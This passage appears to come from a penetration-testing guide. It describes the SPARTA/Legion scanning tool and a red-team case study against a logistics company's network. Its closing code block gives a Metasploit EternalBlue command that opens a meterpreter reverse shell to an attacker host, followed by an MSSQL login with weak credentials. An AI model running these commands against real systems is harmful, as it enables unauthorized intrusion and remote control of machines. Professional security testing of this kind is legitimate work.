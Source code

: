 This approach allowed us to demonstrate how an attacker could pivot from the corporate network to critical OT systems through improperly secured boundary systems.

## Sparta/SPARTA: Network Infrastructure Penetration Testing

SPARTA (now known as Legion) is a graphical interface that simplifies network infrastructure penetration testing by automating scanning and organizing results. It's designed for efficiency during professional penetration tests.

### Installation

```bash
# Install on Kali or Parrot OS
apt update && apt install sparta -y
```

### Workflow Automation

SPARTA automates the penetration testing workflow:

1. **Host Discovery**: Identifies live hosts in the target range
2. **Port Scanning**: Conducts comprehensive port scans
3. **Service Identification**: Fingerprints discovered services
4. **Vulnerability Scanning**: Runs targeted vulnerability checks
5. **Brute Force Attacks**: Attempts to crack weak credentials

### Example: From Discovery to Exploitation

In a red team assessment of a logistics company, we used SPARTA to streamline our testing process:

1. **Initial Setup**:
   - Created a new SPARTA project
   - Added the target network range (10.50.0.0/24)
   - Configured scan settings for aggressive enumeration

2. **Automated Discovery Process**:
   - SPARTA identified 45 live hosts
   - Discovered 12 hosts running vulnerable web applications
   - Found 8 hosts with SMB services, including legacy protocols
   - Identified an exposed MS-SQL server

3. **Exploitation Using SPARTA Findings**:

   ```bash
   # Target vulnerable SMB services identified by SPARTA
   # Used EternalBlue exploit against unpatched Windows systems
   msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue;
   set RHOSTS 10.50.0.15;
   set PAYLOAD windows/x64/meterpreter/reverse_tcp;
   set LHOST 10.10.10.5;
   run"
   
   # Access MS-SQL server with weak credentials discovered by SPARTA
   mssqlclient.py sa:Password123@10.50.0.30 -windows-auth
   ```
